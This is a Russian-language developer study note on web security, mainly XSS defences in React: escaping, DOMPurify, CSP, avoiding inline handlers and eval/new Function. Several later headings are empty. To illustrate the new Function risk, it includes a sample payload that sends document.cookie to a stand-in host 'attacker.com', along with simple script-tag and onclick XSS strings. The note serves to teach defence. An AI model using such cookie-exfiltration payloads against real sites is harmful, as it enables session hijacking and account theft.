 # ClickJacking

# XSS (Cross Site Scripting)

XSS — это внедрение вредоносного кода на страницы атакуемого сервиса.

- Reflected XSS = Отражённый, потому что его действие сразу же отражается на поведении страницы.
- Stored XSS = "хранимый", это вредоносный код, который каким-то образом сохранился в атакуемом сервисе. Он мог быть записан в базу, сохранён на диске в виде текста, изображения, мог сохраниться в оперативной памяти сервера.
- Injection = самый частый пример - SQL-инъекции
- Key logger = разновидность XSS. Представим, что злоумышленники внедрили код, который отправляет все данные, набранные с клавиатуры

SQL-инъекции
Их суть заключается в доступе к данным атакуемого сервиса или их изменению. Ну или удалению, всякое бывает.

## Защита от XSS

## 1. Никогда не вставляй HTML напрямую

не использовать dangerouslySetInnerHTML, если только не уверен в источнике и не очистил HTML.

## 2. Экранирование пользовательского ввода

В React JSX по умолчанию все переменные безопасны:

```js
const userInput = '<script>alert("XSS")</script>';

<p>{userInput}</p>; // Безопасно: React экранирует строку
```

Если ты рендеришь HTML вручную (например, в innerHTML), обязательно очищай ввод:

```js
import DOMPurify from "dompurify";

const safeHtml = DOMPurify.sanitize(userInput);
<div dangerouslySetInnerHTML={{ __html: safeHtml }} />;
```

3. **Content Security Policy (CSP)**
   CSP — это заголовок, который блокирует внедрение внешних скриптов, инлайнового JS и т. д.
   Настраивается на сервере, пример:

```js
Content-Security-Policy: default-src 'self'; script-src 'self'
```

4. Избегай инлайновых обработчиков

```js
<!-- Уязвимо -->
<button onclick="alert(document.cookie)">Click</button>
```

Используй JS-функции, а не строки HTML:

```js
<button onClick={() => alert("safe")}>Click</button>
```

5. Валидация и фильтрация данных на клиенте.

Не пускай в форму всё подряд: даже на клиенте можно ограничивать ввод.
Например, использовать input[type="email"], маски, валидацию.
Но клиентская валидация = удобство, а не защита — всё равно проверяй данные на сервере.

6. Избегать eval, new Function.
   new Function(...) в JavaScript — это динамический способ выполнения кода, очень похожий на eval(). Именно поэтому он опасен и может привести к XSS.

Ты буквально создаешь новую функцию из строки кода, передавая тело функции в виде строки:

```js
const fn = new Function("a", "b", "return a + b");
console.log(fn(2, 3)); // 5
```

Как пример того, что могут закинуть в приложение:

```js
const code = getUserInput(); // "return fetch('http://attacker.com?cookie=' + document.cookie)"
const run = new Function(code); // уязвимо
run(); // злоумышленник получает куки
```

# CSRF (Cross Site Request Forgery)

# Man In The Middle (MITM)

# Denial of Service

# HTTP Request Smuggling
